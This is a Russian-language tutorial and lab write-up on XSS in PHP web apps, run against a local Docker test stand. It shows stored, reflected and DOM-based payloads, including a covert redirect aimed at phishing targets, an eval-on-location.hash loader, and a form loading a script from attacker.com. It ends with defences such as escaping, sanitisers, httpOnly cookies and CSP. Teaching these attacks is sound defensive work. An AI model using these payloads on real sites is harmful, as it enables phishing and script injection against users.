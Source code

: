 ## Безопасная разработка в HTML/CSS и PHP

### I. Теоретическая часть.

В соответствии со статистикой [NIST](https://nvd.nist.gov/vuln/search/statistics?form_type=Basic&results_type=statistics&query=php+xss&search_type=all&isCpeNameSearch=false) количество найденных уязвимостей XSS в приложениях, написанных на PHP составило:

в 2021 году - 378, или 1,88% от общего числа уязвимостей (20158)

в 2022 году - 367, или 1,46% от общего числа уязвимостей (25101)

Две новых уязвимости такого класса на 18 апреля 2023 года:

| Уязвимость                                                   | Дата публикации | Описание                                                     |
| ------------------------------------------------------------ | --------------- | ------------------------------------------------------------ |
| [CVE-2023-29847](https://nvd.nist.gov/vuln/detail/CVE-2023-29847) | 14.04.2023      | Было обнаружено, что AeroCMS v0.0.1 содержит множество уязвимостей для сохраненных межсайтовых сценариев (XSS) с помощью параметров comment_author и comment_content в /post.php . Эти уязвимости позволяют злоумышленникам выполнять произвольные веб-скрипты или HTML с помощью созданной полезной нагрузки. |
| [CVE-2023-2057](https://nvd.nist.gov/vuln/detail/CVE-2023-2057) | 14.04.2023      | В EyouCms 1.5.4 была обнаружена уязвимость. Она была классифицирована как проблемная. Затронута неизвестная функция файла login.php?m=admin&c=Arctype&a=редактирование компонента New Picture Handler. Манипулирование аргументом litpic_loca приводит к межсайтовому написанию сценариев. Атаку можно запустить удаленно. Эксплойт был раскрыт общественности и может быть использован. |



### II. Практическая часть.

Запустим тестовый стенд.

```bash
docker pull ket9/otus-devsecops-xss:latest
docker run -d -p 8080:80 --name otus-05 ket9/otus-devsecops-xss:latest
```

#### Stored XSS

Вид атаки, когда результат достигается при открытии пользователем страницы, куда выводится информация, хранящаяся на сервере. Такой тип атаки не требует обязательной фишиноговой подготовки в отношении пользователей, так как вредоносный код доставляется на их машины при посещении зараженного сайта.

В исследуемом сервисе такой вариант атаки доступен через добавление комментария. Например, можно организовать вывод сообщения при каждом открытии страницы со списком комментариев, указав в качестве текста комментария при его добавлении текст:

```javascript
My first comment!<script>alert("Congratulations! You was hacked!")</script>
```

Можно привести сервис в состояние условного отказа в обслуживании в части просмотра или добавления комментариев за счет постоянного редиректа на другую страницу, или выполнить редирект на фишинговый сайт с таким же дизайном:

```javascript
<script>window.location.href="https://google.com"</script>
```

В этом случае при открытии страницы с комментариями автоматически будет происходить редирект на указанную ссылку.

Могут быть случаи, когда подобного рода атака должна совершаться в отношении только одного или нескольких пользователей, а другие о ней знать не должны.  Доработав скрипт, мы получим его срабатывание только при наличии в адресной строке параметра **attack** со значением **true**:

```javascript
<script> 
    const params = new URLSearchParams(window.location.search); 
    const attack = params.get("attack"); 
    if(attack === "true") { 
        window.location.href="https://google.com";
    }; 
</script>
```

Нужным пользователям может быть отправлена должным образом сформированная ссылка фишинговым письмом, а остальные про наличие такой проблемы даже не узнают:

```
http://localhost:8080/XSS-1/index.php?attack=true
```

#### Reflected XSS

Вид атаки, когда результат достигается после ввода пользователем вредоносного кода. Другое название - неперсистентный XSS, так как вредоносный код не хранится на сервере. Вариант использования такой атаки - фишинговое письмо со ссылкой, содержащей вредоносный код:

```
get.php?search=<script>alert("XSS ATTACK!")></script>;
```

или через POST-запрос, например, в заранее подготовленной форме:

```javascript
<form name=TheForm action=http://myapp.com/page.php method=post>
	<input type=hidden name=foo value="<script src=http://attacker.com/bad.js></script>;"/>
</form>
```


В исследуемом приложении такой вид атаки недоступен.

#### DOM-based XSS

Межсайтовые скрипты на основе DOM – это уязвимость, которая появляется в объектной модели документа, а не на HTML-страницах. В этом случае выполняется манипулирование компонентами объектной модели документа, без отправки вредоносного кода на сервер, что существенно усложняет обнаружение такой уязвимости.

Так как в чистом виде этот тип атаки в приложении недоступен, попробуем продемонстрировать его, используя дополнительно Stored XSS.

С помощью простого скрипта и правильно сформированных ссылок мы можем выполнять произвольный код на атакуемой машине:

Добавляем комментарий:

```javascript
<script>var l = location.hash.slice(1);eval(l);</script>
```

Формируем ссылку:

```
http://localhost:8080/XSS-1/#alert('Surprise!')
```

И получаем результат:

![surprise](./images/surprise.png)

Особенностью DOM-based атак является то, что они выполняются исключительно на стороне клиента, без задействования бэкенда приложения. Например, за счет использования символа **#** в ссылке мы можем выполнить любой скрипт, так как все что находится после него отрезается и на сервер не передается, но доступно в JavaScript на клиенте. То есть в нашем случае для выполнения любых операций, на которые способен JavaScript, нам достаточно только 1 зараженного комментария.

Например, источником для атаки могут стать:

![source](./images/source.png)

и куда это может быть применено:

![sink](./images/sink.png)

#### Blind XSS

Подвид Stored XSS, только ориентирован на отложенное срабатывание, и вообще не обязательно в этом приложении. Зачастую используется для атаки на административные панели сервисов.

#### Self XSS

Вид атаки, когда пользователь самостоятельно запускает вредоносный код, например в консоли браузера. 

#### mXSS (mutation-based XSS)

Относительно новый и достаточно опасный вектор атак. Заключается в том, что безопасный с точки зрения HTML-санитайзеров пользовательского ввода скрипт, после его обработки превращается во вредоносный. 

### Основные технические способы противодействия XSS-атакам.

Экранирование входных и выходных данных, по возможности избегая самописных решений - лучше использовать или штатные средства языка, или популярные проверенные библиотеки (например, для PHP это Reform или HTML Purifier), отсекая HTML-теги и другие потенциально опасные данные.

Валидация пользовательского ввода.

Использование HTML-санитайзеров.

Установка для cookies, содержащих чуствительные данные флага **httpOnly** - тогда они не будут доступны для чтения через JavaScript.

Явно указывать кодировку страницы, чтобы избежать проблем с экранированием символов **<** и **>**, если они указаны в кодировке **UTF-7** (тогда они имеют вид **+ADw-** и **+AD4-** и скорее всего будут пропущены при валидации или экранировании, а с ними и весь вредоносный скрипт).

Использовать заголовок **Content Security Policy**. Это заголовок, который позволяет в явном виде объявить «белый список» источников, с которых можно подгружать различные данные, например, JS, CSS, изображения и пр. Даже если злоумышленнику удастся внедрить скрипт в веб-страницу, он не выполниться, если не будет соответствовать разрешенному списку источников (при условии внедрения через **script src=...**)

Регулярный анализ новых обнаруженных уязвимостей и обновление зависимостей проекта на версии, в которых обнаруженные уязвимости устранены.
